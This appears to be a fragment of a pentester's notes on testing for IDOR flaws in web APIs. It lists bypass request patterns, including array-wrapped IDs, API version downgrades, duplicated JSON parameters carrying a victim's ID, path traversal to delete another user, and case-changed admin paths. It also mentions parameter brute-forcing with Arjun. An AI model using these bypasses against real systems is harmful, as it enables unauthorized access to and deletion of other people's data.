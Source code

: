 ## Continuity
Make sure if you are replacing one ID with another that you replace it in **every part** of the request, not just in one instance. This is an easy mistake to make and could cause you to overlook potential vulnerabilities.

---
Note: To find URL parameters for endpoints, use tools like [Arjun](https://github.com/s0md3v/Arjun) or Parameth to brute force common IDOR URL parameter names.
IDOR's are commonly found on API endpoints with JSON parameters, not URL.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK

{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK

/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK

POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}

GET /admin/profile --> 401 Unauthorized
GET /ADMIN/profile --> 200 OK

POST /users/delete/VICTIM_ID --> 403 Forbidden
POST /users/delete/MY_ID/../VICTIM_ID --> 200 OK

GET /graphql HTTP/1.1
Host: example.com
GET /graphql.php?query= HTTP/1.1
Host: example.com

GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
GET /file?id=302
Host: example.com
```

---
## Revisit this lap > Method-based access control can be circumvented

But in short, if you gonna change request method (by clicking on change method option in burp) you need first to edit the session cookie to by the attacker's

---
## rs0n Video
